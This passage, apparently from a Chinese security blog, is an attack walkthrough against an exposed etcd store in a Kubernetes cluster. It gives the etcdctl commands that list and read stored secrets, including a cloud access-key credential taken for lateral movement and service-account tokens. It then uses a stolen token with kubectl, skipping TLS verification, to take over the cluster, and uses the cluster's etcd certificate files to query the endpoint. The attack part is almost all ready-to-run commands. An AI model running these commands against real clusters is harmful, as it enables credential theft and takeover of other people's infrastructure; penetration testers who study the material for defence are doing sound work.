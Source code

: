 **攻击测试**  
ETCD V2和V3是两套不兼容的API，K8s使用V3，通过环境变量设置API V3：

```plain
export ETCDCTL_API=3
```

检查是否正常连接

```plain
etcdctl endpoint health

127.0.0.1:2379 is healthy: successfully committed proposal: took = 939.097µs
```

查看K8s secrets

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
```

获取集群中保存的云产品AK，横向移动：

```plain
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
```

读取service account token

```plain
etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
```

通过token认证访问API-Server，接管集群：

```plain
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="[ey...]" -n kube-system get pods
```

**证书使用**  
查看链接状态

```plain
sudo ./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint health
```

[![](assets/1698893355-4c7f71b41ccc96844d965659495a1d3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170439-877d434e-7315-1.png)  
查看集群状态

```plain
etcdctl --write-out=table --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint status
```
